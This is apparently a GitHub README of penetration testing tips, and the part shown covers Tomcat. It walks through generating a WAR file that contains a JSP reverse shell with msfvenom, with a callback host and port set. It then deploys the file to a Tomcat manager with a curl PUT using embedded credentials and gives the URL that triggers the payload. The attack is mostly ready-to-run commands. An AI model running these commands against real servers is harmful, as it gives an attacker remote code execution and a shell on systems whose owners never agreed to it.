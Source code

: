 # PenTips
Usefull penetration testing tips

##### Tomcat 
Deploy a new application archive (WAR) remotely without manager-gui role using curl.
<br/>Required roles : **manager-script** (tomcat-users.xml).
<br/>(By default, no user is included in the "manager-gui" role required to operate the "/manager/html" web application).

If the Host is configured with *unpackWARs=true* (server.xml) and you deploy a war file, it will be unpacked into a directory in your Host appBase directory.
<br/>   `<Host name="localhost"  appBase="webapps" unpackWARs="true" autoDeploy="true">`

In order to produce a new application archive (WAR) containing JSP reverse shell, you can use **msf-venom**.
<br/>`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f war > rev.war`

Deploy new application archive (WAR) remotely using curl.
<br/>`curl -X PUT -T rev.war http://tomcat:password@10.10.10.50:8080/manager/text/deploy?path=/applicationname`

Access new application archive to execute the JSP payload.
<br/>`http://10.10.10.50:8080/applicationname/vnmsydlc.jsp`
